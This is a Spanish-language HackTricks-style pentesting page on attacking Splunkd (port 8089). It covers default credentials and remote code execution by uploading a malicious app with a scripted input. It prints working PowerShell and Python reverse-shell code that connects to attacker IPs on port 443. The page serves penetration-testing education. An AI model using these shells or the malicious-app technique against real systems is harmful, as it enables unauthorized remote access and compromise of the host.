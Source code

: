 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## **Información Básica**

* Herramienta de análisis de registros utilizada para la recopilación, análisis y visualización de datos
* Comúnmente utilizada en monitoreo de seguridad y análisis de negocios
* Puertos predeterminados:
* Servidor web: 8000
* Servicio Splunkd: 8089

### Vectores de Vulnerabilidad:

1. Explotación de la Versión Gratuita

* La versión de prueba se convierte automáticamente en la versión gratuita después de 60 días
* La versión gratuita carece de autenticación
* Riesgo de seguridad potencial si se deja sin gestionar
* Los administradores pueden pasar por alto las implicaciones de seguridad

2. Debilidades de Credenciales

* Versiones más antiguas: Credenciales predeterminadas `admin:changeme`
* Versiones más nuevas: Credenciales establecidas durante la instalación
* Potencial para el uso de contraseñas débiles (por ejemplo, `admin`, `Welcome`, `Password123`)

3. Oportunidades de Ejecución Remota de Código

* Múltiples métodos de ejecución de código:
* Aplicaciones Django del lado del servidor
* Puntos finales REST
* Entradas scriptadas
* Scripts de alerta
* Soporte multiplataforma (Windows/Linux)
* Las entradas scriptadas pueden ejecutar:
* Scripts Bash
* Scripts de PowerShell
* Scripts por lotes

Potencial Clave de Explotación:

* Almacenamiento de datos sensibles
* Falta de autenticación en la versión gratuita
* Múltiples vectores para potencial ejecución remota de código
* Posibilidad de aprovechar entradas scriptadas para comprometer el sistema

### Shodan

* `Splunk build`

## RCE

### Crear Aplicación Personalizada

Splunk ofrece un método sofisticado para la ejecución remota de código a través del despliegue de aplicaciones personalizadas, aprovechando sus capacidades de scripting multiplataforma. La técnica de explotación central gira en torno a la creación de una aplicación maliciosa que puede ejecutar shells reversos en sistemas tanto Windows como Linux.

Una aplicación personalizada puede ejecutar **scripts de Python, Batch, Bash o PowerShell**. Además, **Splunk viene con Python instalado**, por lo que incluso en sistemas **Windows** podrás ejecutar código python.

Puedes usar [**este**](https://github.com/0xjpuff/reverse_shell_splunk) ejemplo con el **`bin`** que contiene ejemplos para [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) y [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). O podrías crear el tuyo propio.

El proceso de explotación sigue una metodología consistente a través de plataformas:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
El archivo de configuración crítico `inputs.conf` habilita el script mediante:

* Estableciendo `disabled = 0`
* Configurando un intervalo de ejecución de 10 segundos
* Definiendo el tipo de fuente del script

El despliegue es sencillo:

1. Crear el paquete de aplicación maliciosa
2. Configurar un listener (Netcat/socat) en la máquina atacante
3. Subir la aplicación a través de la interfaz de Splunk
4. Activar la ejecución automática del script al subir

Ejemplo de shell reversa de Windows PowerShell:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
Ejemplo de shell inverso de Python en Linux:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Escalación de Privilegios

En la siguiente página puedes encontrar una explicación de cómo este servicio puede ser abusado para escalar privilegios y obtener persistencia:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## Referencias

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
